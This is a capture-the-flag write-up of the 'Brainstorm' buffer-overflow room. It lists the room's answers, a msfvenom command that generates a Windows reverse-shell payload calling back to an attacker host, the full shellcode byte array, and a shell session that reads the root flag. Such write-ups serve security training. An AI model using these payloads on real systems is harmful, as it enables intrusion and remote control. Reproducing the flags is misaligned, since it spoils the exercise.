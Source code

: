 # BRAINSTORM

## Task 1  Deploy Machine and Scan Network
+ Deploy the machine `No Answer Needed`
+ How many ports are open?`6`

## Task 2  Accessing Files
+ What is the name of the exe file you found?`chatserver.exe`

## Task 3  Access
+ Read the description. `No Answer Needed`
+ After testing for overflow, by entering a large number of characters, determine the EIP offset.`No Answer Needed` it's `2012`
+ Now you know that you can overflow a buffer and potentially control execution, you need to find a function where ASLR/DEP is not enabled. Why not check the DLL file.`No Answer Needed` using .dll to check the JUMP ESP
+ Since this would work, you can try generate some shellcode - use msfvenom to generate shellcode for windows.`No Answer Needed`
```bash
┌──(lodwig㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.4.37.160 LPORT=1337 -b '\\x00\\n\\r\\x20' -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1491 bytes
unsigned char buf[] =
"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x99\xd8\xb5\xed\x83\xee\xfc\xe2\xf4\x65\x30\x37\xed"
"\x99\xd8\xd5\x64\x7c\xe9\x75\x89\x12\x88\x85\x66\xcb\xd4"
"\x3e\xbf\x8d\x53\xc7\xc5\x96\x6f\xff\xcb\xa8\x27\x19\xd1"
"\xf8\xa4\xb7\xc1\xb9\x19\x7a\xe0\x98\x1f\x57\x1f\xcb\x8f"
"\x3e\xbf\x89\x53\xff\xd1\x12\x94\xa4\x95\x7a\x90\xb4\x3c"
"\xc8\x53\xec\xcd\x98\x0b\x3e\xa4\x81\x3b\x8f\xa4\x12\xec"
"\x3e\xec\x4f\xe9\x4a\x41\x58\x17\xb8\xec\x5e\xe0\x55\x98"
"\x6f\xdb\xc8\x15\xa2\xa5\x91\x98\x7d\x80\x3e\xb5\xbd\xd9"
"\x66\x8b\x12\xd4\xfe\x66\xc1\xc4\xb4\x3e\x12\xdc\x3e\xec"
"\x49\x51\xf1\xc9\xbd\x83\xee\x8c\xc0\x82\xe4\x12\x79\x87"
"\xea\xb7\x12\xca\x5e\x60\xc4\xb0\x86\xdf\x99\xd8\xdd\x9a"
"\xea\xea\xea\xb9\xf1\x94\xc2\xcb\x9e\x27\x60\x55\x09\xd9"
"\xb5\xed\xb0\x1c\xe1\xbd\xf1\xf1\x35\x86\x99\x27\x60\xbd"
"\xc9\x88\xe5\xad\xc9\x98\xe5\x85\x73\xd7\x6a\x0d\x66\x0d"
"\x22\x87\x9c\xb0\xbf\xe9\xbc\x78\xdd\xef\x99\xdd\x8c\x64"
"\x7f\xb2\xa5\xbb\xce\xb0\x2c\x48\xed\xb9\x4a\x38\x1c\x18"
"\xc1\xe1\x66\x96\xbd\x98\x75\xb0\x45\x58\x3b\x8e\x4a\x38"
"\xf1\xbb\xd8\x89\x99\x51\x56\xba\xce\x8f\x84\x1b\xf3\xca"
"\xec\xbb\x7b\x25\xd3\x2a\xdd\xfc\x89\xec\x98\x55\xf1\xc9"
"\x89\x1e\xb5\xa9\xcd\x88\xe3\xbb\xcf\x9e\xe3\xa3\xcf\x8e"
"\xe6\xbb\xf1\xa1\x79\xd2\x1f\x27\x60\x64\x79\x96\xe3\xab"
"\x66\xe8\xdd\xe5\x1e\xc5\xd5\x12\x4c\x63\x45\x58\x3b\x8e"
"\xdd\x4b\x0c\x65\x28\x12\x4c\xe4\xb3\x91\x93\x58\x4e\x0d"
"\xec\xdd\x0e\xaa\x8a\xaa\xda\x87\x99\x8b\x4a\x38";
```
+ After gaining access, what is the content of the root.txt file?`5b1001de5a44eca47eee71e7942a8f8a`
```bash
C:\Users\drake\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C87F-5040

 Directory of C:\Users\drake\Desktop

08/29/2019  09:55 PM    <DIR>          .
08/29/2019  09:55 PM    <DIR>          ..
08/29/2019  09:55 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  19,661,803,520 bytes free

C:\Users\drake\Desktop>type root.txt
type root.txt
5b1001de5a44eca47eee71e7942a8f8a
```